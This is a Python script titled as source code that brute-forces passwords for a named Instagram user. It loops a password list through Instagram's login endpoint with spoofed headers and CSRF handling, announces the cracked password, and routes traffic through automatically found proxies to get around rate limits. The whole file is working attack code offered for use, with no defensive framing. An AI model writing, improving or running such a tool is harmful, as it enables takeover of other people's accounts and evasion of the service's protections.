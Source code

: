 # -123george
import argparse
import requests
import os
import codecs

import socket
import socks

import asyncio
from proxybroker import Broker

#args parser
parser = argparse.ArgumentParser()
parser.add_argument('username', help='Instagram username of the user you want to attack')
parser.add_argument('passwords_file', help='A passwords file for the software')
args = parser.parse_args()
if not os.path.exists(args.passwords_file):
	exit('[*] Sorry, can\'t find file named "%s"' % args.passwords_file)

#help functions
#remove empty lines and duplicates 
def cleanList(items):
	newList = []
	for x in items:
		if not (x == None or x == ''):
			if not x in newList:
				newList.append(x)
	return newList

#main class - Instagram bruteforce
class Instabrute():
	def __init__(self, username, passwords):
		self.username = username
		if not self.userExists():
			exit('[*] Can\'t find user named "%s"' % self.username)

		self.passwords = passwords

		self.attempts = 0 

	def userExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if r.status_code == 404:
			return False
		elif r.status_code == 200:
			return True
		else:
			return False

	def _next(self):
		#add 1 attempt to the counter
		self.attempts += 1
		#remove the first password (the current)
		self.passwords.pop(0)
		#try the next password
		self.login()

	def login(self):
		sess = requests.Session()

		#requests headers and cookies
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.167 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#update csrf token for the first time
		sess.headers.update({'X-CSRFToken' : sess.get('https://www.instagram.com/').cookies.get_dict()['csrftoken']})

		#try to login
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={
			'username':self.username, 
			'password':self.passwords[0]
		}, allow_redirects=True)

		if 'authenticated' in r.text:
			if r.json()['authenticated']:
				exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
				#update csrf token after login try (if you want to keep the session)
				#sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
			else:
				print ('[%s] Can\'t login with "%s"' % (str(self.attempts+1), self.passwords[0]))
				#try the next password
				self._next()
		else:
			if 'message' in r.text:
				if r.json()['message'] == 'Please wait a few minutes before you try again.':
					pass #Do you want to wait or use proxy?
				elif r.json()['message'] == 'checkpoint_required':
					exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
				else:
					print ('[MESSAGE] %s' % r.json()['message'])
			else:
				print (r.text)

#find proxy
async def proxything(proxies):
	while True:
		proxy = await proxies.get()
		if proxy is None: break
		print('[*] Found proxy: %s' % proxy)
		socks.set_default_proxy(socks.HTTP, proxy.host, proxy.port)
		socket.socket = socks.socksocket
proxies = asyncio.Queue()
asyncio.get_event_loop().run_until_complete(asyncio.gather(Broker(proxies).find(types=['HTTPS', 'HTTP'], limit=1), proxything(proxies)))

#main action
with codecs.open(args.passwords_file, 'r', 'utf-8') as file:
	passwords = file.read().splitlines()
	if len(passwords) < 1:
		exit('[*] The file is empty')
	else:
		passwords = cleanList(passwords)
		print ('[*] %s passwords loaded successfully' % len(passwords))

bruteforce = Instabrute(args.username, passwords)
bruteforce.login()

